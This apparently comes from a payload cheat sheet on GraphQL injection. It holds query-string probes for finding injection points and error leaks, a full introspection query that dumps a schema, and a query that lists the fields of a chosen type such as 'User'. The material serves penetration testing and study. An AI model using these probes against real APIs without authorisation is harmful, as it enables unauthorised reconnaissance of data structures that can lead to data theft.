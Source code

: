 # GraphQL injection

GraphQL is a query language for APIs and a runtime for fulfilling those queries with existing data.

## Exploit

Identify an injection point

```
?param={__schema{types{name}}}
```
Check if errors are visible

```
?param={__schema}
?param={}
?param={thisdefinitelydoesnotexist}
```

Enumerate Database Schema with the following GraphQL query

```
fragment FullType on __Type {
  kind
  name
  description
  fields(includeDeprecated: true) {
    name
    description
    args {
      ...InputValue
    }
    type {
      ...TypeRef
    }
    isDeprecated
    deprecationReason
  }
  inputFields {
    ...InputValue
  }
  interfaces {
    ...TypeRef
  }
  enumValues(includeDeprecated: true) {
    name
    description
    isDeprecated
    deprecationReason
  }
  possibleTypes {
    ...TypeRef
  }
}
fragment InputValue on __InputValue {
  name
  description
  type {
    ...TypeRef
  }
  defaultValue
}
fragment TypeRef on __Type {
  kind
  name
  ofType {
    kind
    name
    ofType {
      kind
      name
      ofType {
        kind
        name
        ofType {
          kind
          name
          ofType {
            kind
            name
            ofType {
              kind
              name
              ofType {
                kind
                name
              }
            }
          }
        }
      }
    }
  }
}

query IntrospectionQuery {
  __schema {
    queryType {
      name
    }
    mutationType {
      name
    }
    types {
      ...FullType
    }
    directives {
      name
      description
      locations
      args {
        ...InputValue
      }
    }
  }
}

```

Enumerate the definition of interesting types using the following GraphQL query, replacing "User" with the chosen type

```
{__type (name: "User") {name fields{name type{name kind ofType{name kind}}}}}
```

## References

* [Introduction to GraphQL](https://graphql.org/learn/)
* [GraphQL Introspection](https://graphql.org/learn/introspection/)

